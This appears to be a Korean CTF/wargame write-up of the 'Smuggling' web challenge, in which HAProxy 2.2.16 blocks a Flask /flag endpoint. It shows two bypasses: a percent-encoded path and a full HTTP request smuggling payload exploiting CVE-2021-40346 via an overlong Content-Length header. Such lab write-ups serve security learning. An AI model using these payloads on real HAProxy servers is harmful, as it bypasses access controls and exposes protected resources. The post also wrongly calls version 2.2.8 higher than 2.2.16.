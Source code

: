 ```yaml
---
layout: post
category: [wargame, web]
title: Smuggling
---
```


## [문제](https://h4ckingga.me/challenges#Smuggling-15)


## 문제 분석

문제 웹페이지 사진   
![main](/assets/img/2024-06-03-smuggling/main.png)

다양한 엔드포인트를 Bruteforce(?) 해보았으나 전부 404 오류가 발생하였다.. ``/admin`` ``/dashboard`` ``/login`` 등...

서버는 gunicorn을 사용한다는 것을 알 수 있었다.   
![gunicorn](/assets/img/2024-06-03-smuggling/server_info.png)

일단 문제에 주어진 서버 파일을 살펴보았다.

```py
# main.py
from flask import Flask

app = Flask(__name__)

flag = open("FLAG").read()

@app.route('/', methods=['GET', 'POST'])
def main():
    return 'Hello! Our Team is TeamH4C'

@app.route('/guest', methods=['GET', 'POST'])
def guest():
    return 'ref. jfrog'

@app.route('/flag', methods=['GET', 'POST'])
def get_flag():
	return flag


if __name__ == '__main__':
    app.run()
```

엔드포인트는 3개로 ``/guest`` ``/flag`` 가 있는 걸 확인할 수 있었다.

``/flag`` 엔드포인트에 접속해보았다.

![403](/assets/img/2024-06-03-smuggling/forbidden.png)

서버 소스에는 403 에러가 발생하는 부분이 없으나, ``/flag`` 엔드포인트에 접속하면 403 에러로 접근을 거부하고 있는 것을 알 수 있다.

서버 코드가 너무 심플한데.... 서버에서 403을 일으키진 않는 것 같아 문제 파일을 조금 더 살펴보았다.

```yaml
# docker-compose.yaml
version: '3.7'
services:
  web:
    image: haproxy:2.2.16
    volumes:
      - ./config:/usr/local/etc/haproxy
    ports:
      - "10008:8000"
  flask:
    build: .
```

이 파이썬 앱은 ``docker-compose`` 를 이용하여 도커 환경의 서버에서 서빙되고 있는 것을 알 수 있다. 또한 파이썬 앱에 직접적으로 연결되는 것이 아닌 ``haproxy`` 라고 하는 서버 뒤에서 작동하는 것을 확인하였다.

> 리버스 프록시란?
![proxy](/assets/img/2024-06-03-smuggling/diagram1.png)

``config/haproxy.cfg`` 파일을 보면
```
frontend web 
    bind *:8000  
    http-request deny if { path_beg /flag }
    http-request deny if { path_beg // }
```
위 부분에서 ``path_beg`` 가 ``/flag`` 의 경우 http 요청을 거부하는 규칙이 있음을 알 수 있다.

또한 아래의 설정 구문을 보면, flask 호스트네임의 5000번으로 요청을 프록시하고 있는 것을 알 수 있다.
```
backend websrvs 
    http-reuse always
    server srv1 flask:5000
```

그래서 이제 haproxy가 ``/flag`` 엔드포인트에 접근을 막고 있는 것을 알게 되었다. 구글링 해볼 시간이다.

![구글신 만세](/assets/img/2024-06-03-smuggling/google.png)

검색 결과를 확인해보니 인코딩된 URL로 요청하면 통과가 가능하다는 글과
HAProxy 가 ACL(Access Control List) bypass 를 가능하게 한다는 레딧 글이 있다.


## Percent Encoding 으로 우회하여 해결하는 방법

[첫번째 글](https://discourse.haproxy.org/t/encoded-url-not-matching-path-beg-or-url-dec/6710) 에선 ``%44%43`` 이런 식으로 인코딩이 되어 있는 주소로 접근할 때에 ACL 바이패스가 가능하다는 글이였다.

이 글에서의 haproxy 버전은 ``2.2.8`` 로 dockerfile 에 명시된 ``haproxy:2.2.16`` 버전보다 높기 때문에 문제 페이지의 haproxy 는 취약할 것이라고 생각된다.

이를 통해 [인코딩](https://developer.mozilla.org/en-US/docs/Glossary/Percent-encoding) 된 URL 로 ``/flag`` 주소를 접근하면 플래그를 획득할 수 있다.

> Percent Encoding 이란?   
특별한 의미가 있는 8비트 문자를 URL 내에서 인코딩 할 때에 사용하는 방법이다.   
인코딩은 % 와 대체 문자의 ASCII 값에 대한 16진수 표현으로 구성된다.   
예를 들어 Hello 의 경우 ACSII 값으로 "72 101 108 108 111" 이고 이를 16진수 Hex로 바꿔서 각 Hex 에 %를 대입한 후 "%48 %65 %6c %6c %6f" 주소창에 입력하면 Hello 가 나오는 것을 볼 수 있다.

```js
const toEncode = "flag"
[...toEncode].map(e => e.charCodeAt()).map(e => "%" + e.toString(16)).join("")
```

위와 같은 자바스크립트 코드로 ``flag`` 를 Percent Encoding 으로 인코딩 후 ``/%66%6c%61%67`` 주소로 접근할 경우 플래그를 얻을 수 있다.

![FLAG](/assets/img/2024-06-03-smuggling/flag.png)

## HTTP Smugggling 으로 해결한 방법
[두번째 글](https://www.reddit.com/r/sysadmin/comments/pl5hjb/haproxy_vulnerability_allows_acl_bypass/) 의 경우, 이 글이 링크되어 있다.

[HAProxy vulnerability enables HTTP request smuggling attacks | The Daily Swig \(portswigger.net\)](https://portswigger.net/daily-swig/haproxy-vulnerability-enables-http-request-smuggling-attacks)

"Security researchers have disclosed a HTTP request smuggling vulnerability in HAProxy, the popular open source load balancer."
> 보안 연구원들이 인기 있는 오픈 소스 로드 밸런서인 HAProxy의 HTTP Request Smuggling 취약점을 공개했습니다.
   
"Researchers at DevOps platform JFrog demonstrated how an integer overflow flaw (CVE-2021-40346) can be abused to perform HTTP request smuggling attacks that bypass any access control lists (ACLs) defined in HAProxy."
> DevOps 플랫폼 JFrog의 연구원들은 정수 오버플로 결함(CVE-2021-40346) 을 악용하여 HAProxy에 정의된 ACL(액세스 제어 목록) 을 우회하는 HTTP Request Smuggling 공격을 수행할 수 있는 방법을 시연했습니다.

``JFrog의 연구원들`` 아까 서버 코드에 ref. jfrog 라고 적혀있는 게 힌트였던 것 같다.

```
POST /guest HTTP/1.1
Host: web.h4ckingga.me:10008
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 23

GET /flag HTTP/1.1
h:GET /guest HTTP/1.1
Host: web.h4ckingga.me:10008

```
